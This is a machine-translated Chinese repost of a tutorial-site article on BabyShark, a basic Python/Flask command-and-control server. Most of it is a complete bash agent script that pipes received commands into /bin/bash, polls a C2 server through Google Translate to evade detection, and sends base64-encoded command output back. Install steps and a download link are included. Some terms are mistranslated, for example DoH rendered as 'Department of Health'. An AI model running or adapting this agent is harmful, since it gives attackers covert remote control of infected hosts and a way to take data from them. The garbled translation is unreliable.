

# BabyShark:基本 C2 服务器 2020

> 原文：<https://kalilinuxtutorials.com/babyshark/>

[](https://1.bp.blogspot.com/-mNnTBmp0_z8/Xut9P43X-eI/AAAAAAAAGpg/gE1Ih5jeFt0Uf0k-6PSaYyh1ykNMkb4OQCLcBGAsYHQ/s1600/BabyShark%25281%2529.png)

BabyShark 是一个用 Python 和 Flask 编写的基本 C2 通用服务器。

这段代码基于 [GTRS](https://github.com/mthbernardes/GTRS) 的思想，它使用[谷歌翻译](https://translate.google.com)作为代理向被感染的主机发送命令。BabyShark 项目旨在集中代理的反向连接，创建一种将几种类型的连接集中在一个地方的方法。

BabyShark 不生成感染代理，但它提供了一个模板来连接它。

**安装**

**git 克隆 https://github.com/danilovazb/BabyShark/
CD baby shark
mkdir 数据库
sqlite3 数据库/c2.db < schema.sql**

**也可阅读-[ANDRAX:NH-Android 上的黑仔渗透测试](https://kalilinuxtutorials.com/andrax/)**

**代理模型**

**GTRS**–【https://github.com/mthbernardes/GTRS 

GTRS 中用于连接到 BabyShark 的客户端示例:

```
#!/bin/bash

if [[ $# < 2 ]];then
    echo -e "Error\nExecute: $0 www.c2server.com secretkey-provided-by-the-server\n"
    exit
fi

running=true
secretkey="b4bysh4rk"
user_agent="User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/70.0.3538.110 Safari/537.36"
data="Content-Hype: "
c2server="http://babyshark/momyshark?key=$secretkey"
result=""
input="/tmp/input"
output="/tmp/output"

function namedpipe(){
  rm "$input" "$output"
  mkfifo "$input"
  tail -f "$input" | /bin/bash 2>&1 > $output &
}

function getfirsturl(){
  url="https://translate.google.com/translate?&anno=2&u=$c2server"
  first=$(curl --silent "$url" -H "$user_agent" | xmllint --html --xpath '//iframe/@src' - 2>/dev/null | cut -d "=" -f2- | tr -d '"' | sed 's/amp;//g' )
} 

function getsecondurl(){
  second=$(curl --silent -L "$first" -H "$user_agent"  | xmllint --html --xpath '//a/@href' - 2>/dev/null | cut -d "=" -f2- | tr -d '"' | sed 's/amp;//g')
}

function getcommand(){
  if [[ "$result" ]];then  
    command=$(curl --silent $second -H "$result" )
  else
    command=$(curl --silent $second -H "$user_agent" )

    command1=$(echo "$command" | xmllint --html --xpath '//span[@class="google-src-text"]/text()' - 2>/dev/null)
    command2=$(echo "$command" | xmllint --html --xpath '/html/body/main/div/div/div/div/ul/li/span/text()' - 2>/dev/null )
    if [[ "$command1" ]];then
      command="$command1"
    else
      command="$command2"
    fi
  fi
}

function talktotranslate(){
  getfirsturl
  getsecondurl
  getcommand
}

function main(){
  result=""
  sleep 10
  talktotranslate
  if [[ "$command" ]];then
    if [[ "$command" == "exit" ]];then
      running=false 
    fi
    echo $command
    echo -n > $output
    idcommand=$(echo $command | cut -d '#' -f2)
    echo "$command" > "$input"
    sleep 2
    outputb64=$(cat $output | tr -d '\000'  | base64 | tr -d '\n'  2>/dev/null)
    if [[ "$outputb64" ]];then
      result="$user_agent | $outputb64 | $idcommand "
      talktotranslate
    fi
  fi
}

namedpipe
while "$running";do
  main
done
```

**接下来的步骤**

*   SSH 反向
*   域名服务器(Domain Name Server)
*   卫生部(Department of Health)
*   HTTPS
*   HTTP3
*   网间控制报文协议(Internet Control Messages Protocol)
*   QUIC

[**Download**](https://github.com/UnkL4b/BabyShark)